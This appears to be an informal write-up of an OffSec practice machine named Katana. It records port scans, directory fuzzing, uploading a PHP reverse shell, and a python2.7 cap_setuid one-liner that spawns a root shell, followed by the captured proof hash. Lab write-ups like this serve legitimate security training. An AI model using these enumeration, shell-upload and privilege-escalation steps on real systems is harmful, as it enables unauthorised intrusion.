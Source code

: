 offsec
target : 192.168.215.83
first day, No WriteUP for easy machine
Tips:  scan also for html file using -e for extension
Tips: use dirb for extension scanning
nmap scan 
└─# nmap -sV -A -Pn -p- --min-rate 5000 192.168.215.83     
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
7080/tcp open  ssl/empowerid LiteSpeed
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
8715/tcp open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content

found a web page on it http://192.168.215.83/ i run ffuf on it but nothing 
but it's same with the 8088 nut the server is not same .
now i run also on it and found 
 :: Method           : GET
 :: URL              : http://192.168.215.83:8088/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

                        [Status: 200, Size: 655, Words: 51, Lines: 24]
.htaccess               [Status: 403, Size: 1227, Words: 107, Lines: 15]
blocked                 [Status: 301, Size: 1260, Words: 109, Lines: 15]
cgi-bin                 [Status: 301, Size: 1260, Words: 109, Lines: 15]
css                     [Status: 301, Size: 1260, Words: 109, Lines: 15]
docs                    [Status: 301, Size: 1260, Words: 109, Lines: 15]
img                     [Status: 301, Size: 1260, Words: 109, Lines: 15]
index.html              [Status: 200, Size: 655, Words: 51, Lines: 24]
phpinfo.php             [Status: 200, Size: 50771, Words: 2409, Lines: 494]
protected               [Status: 301, Size: 1260, Words: 109, Lines: 15]

i will now scan for html extension
└─# ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.221.83:8088/FUZZ -e html    
nothing i will use dirb
└─# dirb http://192.168.221.83:8088/ -X .html
found http://192.168.221.83:8088/upload.html

uploaded and i go in all port to find my submit shell
http://192.168.221.83:8088/katana_reverse_shell.php nothing and then i go in 8715 and found it

PrivEsc
 i found nothing using the SUID and sudo now i try capabilities
 www-data@katana:/tmp/priv$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
www-data@katana:/tmp/priv$ 

i found python now i go to gtfobins and found something
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'

root@katana:/root# cat proof.txt 
c4d730623ee916b4c45cf445da5fd716
root@katana:/root# cat root.txt 
Your flag is in another file...
local.txt is the first flag i need to find 
/var/www/local.txt